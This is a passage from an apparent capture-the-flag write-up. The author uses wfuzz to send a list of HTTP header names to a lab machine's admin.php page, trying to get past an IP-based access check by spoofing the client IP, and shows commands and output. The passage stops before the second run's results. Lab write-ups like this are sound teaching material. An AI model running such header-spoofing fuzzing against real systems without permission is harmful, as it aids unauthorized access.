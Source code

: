     
    
    root@kali# head headers 
    Accept
    Accept-CH
    Accept-CH-Lifetime
    Accept-Charset
    Accept-Encoding
    Accept-Language
    Accept-Patch
    Accept-Ranges
    Access-Control-Allow-Credentials
    Access-Control-Allow-Headers
    

Now I’ll use `wfuzz` to see if adding these changes anything. I ran it once,
and noticed that the message about not having access is 89 characters, so I’ll
add `--hh 89` to the end of my command. Originally I ran it using the hosts
IP:

    
    
    root@kali# wfuzz -c -w headers -u http://10.10.10.167/admin.php -H "FUZZ: 10.10.10.167" --hh 89
    
    ********************************************************
    * Wfuzz 2.4 - The Web Fuzzer                           *
    ********************************************************
    
    Target: http://10.10.10.167/admin.php
    Total requests: 97
    
    ===================================================================
    ID           Response   Lines    Word     Chars       Payload
    ===================================================================
    
    000000027:   400        6 L      34 W     374 Ch      "Content-Length"
    000000083:   501        6 L      26 W     343 Ch      "Transfer-Encoding"                                                                                                                                                  
    
    Total time: 0.267723
    Processed Requests: 97
    Filtered Requests: 95
    Requests/sec.: 362.3140
    

Then I saw the hint in the source and ran it again with the value of the given
IP:

    
    
    root@kali# wfuzz -c -w headers -u http://10.10.10.167/admin.php -H "FUZZ: 192.168.4.28" --hh 89
    
    ********************************************************
    * Wfuzz 2.4 - The Web Fuzzer                           *
    ********************************************************
    
    Target: http://10.10.10.167/admin.php
    Total requests: 97
    
    ===================================================================
    ID           Response   Lines    Word     Chars       Payload
    ===================================================================
    